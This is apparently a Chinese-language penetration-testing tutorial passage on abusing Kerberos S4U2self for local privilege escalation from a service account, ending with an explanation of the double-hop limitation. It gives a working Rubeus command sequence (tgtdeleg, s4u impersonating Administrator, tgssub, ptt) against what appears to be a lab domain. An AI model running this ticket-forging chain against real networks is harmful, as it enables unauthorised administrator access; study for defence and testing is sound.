 S4u2self可以被用来进行本地提权，假如你拿到一个服务帐号如iis此类的账户，便可以完成此类攻击。因为所有具有spn的用户都可以请求S4U2self。

先利用tgtdeleg来获取该账户的TGT
Default
Rubeus.exe tgtdeleg /nowrap

然后利用s4u来颁发TGS
Default
Rubeus.exe s4u /self /nowrap /impersonateuser:Administrator /ticket:上一步获得的ticket

查看服务名可以看到服务名为我们的机器账户
Default
Rubeus.exe describe /ticket:前面获得的ticket

但其没有给我们办法SPN，但我们可以自行进行修改，利用tgssub
Default
Rubeus.exe tgssub /altservice:host/wap.ssosec.lab /ticket:doIFdD

然后我们只需要去ptt这个票据即可
Default
Rubeus.exe ptt /ticket:前面获得的ticket

然后访问主机的host服务（或者是http服务），已变成管理员权限但是本地管理员无法变为域管。
这是因为 Kerberos Double Hop的问题，在PSSession中，Powershell是通过委派用户凭证的方式让用户在远程计算机上执行任务的。用户从计算机A创建会话连接到计算机B，Powershell通过委派，使得计算机B以用户身份执行任务，好像就是用户自己在执行一样。此时，用户试图与其他计算机C建立连接，得到的却是红色的拒绝访问。因为此时并不是以该用户身份请求访问C，而是以计算机B账户请求的。而微软给出的解决方案则是无约束委派，没有意义，不做讨论。